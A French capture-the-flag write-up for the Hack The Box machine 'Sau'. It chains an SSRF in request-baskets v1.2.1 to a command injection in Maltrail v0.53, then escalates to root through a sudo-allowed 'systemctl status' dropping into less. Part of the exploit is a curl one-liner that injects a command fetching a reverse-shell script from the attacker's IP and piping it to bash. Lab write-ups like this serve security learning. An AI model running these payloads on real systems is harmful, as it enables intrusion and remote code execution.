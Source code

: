 +++
title = "HTB - Sau"
date = "2024-01-09"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hacking", "stuff"]
keywords = ["", ""]
description = "Resume of Sau from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Sau

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.167.17
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION      
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown           
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:23:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close       
|     Request     
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|     Content-Length: 27    
|     href="/web">Found</a>.        
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|_    Content-Length: 0
```

## User exploit
Il y a deux vulnérabilités a exploiter afin d'obtenir un shell en tant que `User`.
Dans un premier temps `request-baskets v1.2.1` est vulnérable a une faille de type SSRF (Server Side Request Forgery). 

> Une faille de type SSRF permet d'effectuer des requêtes malicieuses par l'entremise du server Web vers un endroit arbitraire.

Cette vulnérabilité se situe dans les endpoints de l'API suivants au niveau du paramètre `forward_url`.
- /api/baskets/{name}
- /baskets/{name}

Lorsque le `Basket` est créé, il est possible de modifier ledit paramètre et d'y inséré une adresse IP locale. 

### Code vulnérable
- https://github.com/darklynx/request-baskets/tree/v1.2.1
```go
# https://github.com/darklynx/request-baskets/blob/a36e2ae402204050ce42a78d750785b4b10e7958/baskets.go#L18C1-L25C2

// BasketConfig describes single basket configuration.
type BasketConfig struct {
	ForwardURL    string `json:"forward_url"`
	ProxyResponse bool   `json:"proxy_response"`
	InsecureTLS   bool   `json:"insecure_tls"`
	ExpandPath    bool   `json:"expand_path"`
	Capacity      int    `json:"capacity"`
}
```
```go
// https://github.com/darklynx/request-baskets/blob/9e4107228f6b409ccd3c3d7371b0e0fd5a5798a1/baskets.go#L152

func (req *RequestData) Forward(client *http.Client, config BasketConfig, basket string) (*http.Response, error) {
	forwardURL, err := url.ParseRequestURI(config.ForwardURL)
	if err != nil {
		return nil, fmt.Errorf("invalid forward URL: %s - %s", config.ForwardURL, err)
	}

	// expand path
	if config.ExpandPath && len(req.Path) > len(basket)+1 {
		forwardURL.Path = expandURL(forwardURL.Path, req.Path, basket)
	}

	// append query
	if len(req.Query) > 0 {
		if len(forwardURL.RawQuery) > 0 {
			forwardURL.RawQuery += "&" + req.Query
		} else {
			forwardURL.RawQuery = req.Query
		}
	}
[...]
```
Lorsque le lien du panier est visité, la vulnérabilité est activée. 






Basé sur le résultat du scan nmap, il est possible de constater qu'une application est active sur le port `8338/tcp` mais que le trafic est filtré.
Il est donc possible d'effectuer des requêtes vers cette application grâce à la SSRF. Quelques requêtes suffises afin d'identifier que l'application active est `mailtrail`.

![](/content/img/htb/request_baskets_proxy_configuration.png)

La version du logiciel est `Mailtrail (v0.53)`. Cette version est vulnérable a une exécution de code au niveau du système d'exploitation (OS Command injection).

> Une vulnérabilité de type OS Command injection permet de faire exécuter du code arbitraire par le système d'exploitation. 

La vulnérabilité se situe au niveau de la fonction `subprocess.check_output` dans le paramètre `params.get("username")` dans le fichier `mailtrail/core/http.py`. 

```python
if not IS_WIN:
    try:
        subprocess.check_output(["logger", "-p", "auth.info", "-t", "%s[%d]" % (NAME.lower(), os.getpid()), "%s password for %s from %s port %s" % ("Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1])], stderr=subprocess.STDOUT, shell=False)
    except Exception:
        if config.SHOW_DEBUG:
            traceback.print_exc()

return content
```
En combinant les deux vulnérabilités, il est possible d'obtenir un accès utilisateur sur la boxe.

```bash
#!/bin/bash

curl -k 'http://10.129.153.197:55555/qp9dxnt' --data 'username=;`/bin/curl 10.10.14.113/rev.sh | bash`'
```
User --> puma
## Root exploit
L'utilisateur `puma` a la permission d'exécuter une commande avec des droits de super utilisateur 

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Voici une explication de la vulnérabilité

> *A vulnerability was found in the systemd package. The systemd package does not adequately block local privilege escalation for some Sudo configurations, for example, plausible sudoers files, in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This issue presents a substantial security risk when running systemctl from Sudo because less executes as root when the terminal size is too small to show the complete systemctl output.*

En effectuant plusieurs requêtes vers le service `Maltrail`, `pager`, un binaire qui permet de visionner du contenu au niveau d'un terminal Linux sera exécuté.

`sudo /usr/bin/systemctl status trail.service`

`pager` pointe vers le binaire `less`. En exécutant la commande `!sh`, on obtient un shell en tant que `root`.

![](/content/img/htb/systemctl_status_less_lpe.png)

## Resources:

| Hyperlink                                                        | Info                           |
| ---------------------------------------------------------------- | ------------------------------ |
| https://notes.sjtu.edu.cn/s/MUUhEymt7                            | Exploit request-baskets v1.2.1 |
| https://github.com/advisories/GHSA-58g2-vgpg-335q                | Exploit request-baskets v1.2.1 |
| https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ | Exploit MailTrail v0.53        |
| https://bugzilla.redhat.com/show_bug.cgi?id=2175611              | Exploit systemctl              |
| https://gtfobins.github.io/gtfobins/systemctl/                   | GTFObins                       |